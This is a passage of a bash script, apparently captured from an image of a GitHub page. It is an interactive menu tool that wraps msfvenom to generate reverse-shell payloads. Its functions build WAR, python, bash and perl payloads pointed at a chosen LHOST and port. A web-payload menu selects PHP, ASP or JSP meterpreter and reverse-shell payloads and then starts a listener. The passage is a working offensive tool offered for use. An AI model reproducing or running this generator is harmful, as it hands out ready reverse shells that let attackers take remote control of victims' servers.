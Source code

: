 }
war_payload() {
format=".war"
msfvenom -p $payload LHOST=$lhost LPORT=$default_port3 -f war > $payload_name.war

}

python_payload(){
format=".sh"
msfvenom -p $payload LHOST=$lhost LPORT=$default_port3 -f raw > $payload_name.$format

}

bash_payload() {
format=".sh"
msfvenom -p $payload LHOST=$lhost LPORT=$default_port3 -f raw > $payload_name.$format

}

perl_payload() {
format=".sh"
msfvenom -p $payload LHOST=$lhost LPORT=$default_port3 -f raw > $payload_name.$format
}

webpayloads() {
clear
#banner
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Web Payloads:\e[0m\n"
printf "\n"
printf "\e[1;93m[\e[0m\e[1;77m01\e[0m\e[1;93m] PHP\e[0m\n"
printf "\e[1;93m[\e[0m\e[1;77m02\e[0m\e[1;93m] ASP\e[0m\n"
printf "\e[1;93m[\e[0m\e[1;77m03\e[0m\e[1;93m] JSP\e[0m\n"
printf "\e[1;93m[\e[0m\e[1;77m04\e[0m\e[1;93m] WAR\e[0m\n"
printf "\n"
printf "\e[1;93m[\e[0m\e[1;77m99\e[0m\e[1;93m]\e[0m\e[1;77m Back\e[0m\n"
printf "\n"
read -p $'\e[1;92m[*] Choose an option:\e[0m\e[1;77m ' option_web

if [[ $option_web == 1 || $option_web == 01 ]]; then
payload="php/meterpreter_reverse_tcp"
start
php_payload
listener
elif [[ $option_web == 2 || $option_web == 02 ]]; then
payload="windows/meterpreter/reverse_tcp"
start
asp_payload
listener
elif [[ $option_web == 3 || $option_web == 03 ]]; then
payload="java/jsp_shell_reverse_tcp"
start
jsp_payload
listener
elif [[ $option_web == 4 || $option_web == 04 ]]; then
payload="java/jsp_shell_reverse_tcp"
start
war_payload
listener
elif [[ $option_web == 99 ]]; then
clear
menu_payload
else
printf "\e[1;93m[\e[1;77m!\e[0m\e[1;93m] Invalid option!\e[0m"
sleep 0.5
clear
webpayloads
fi
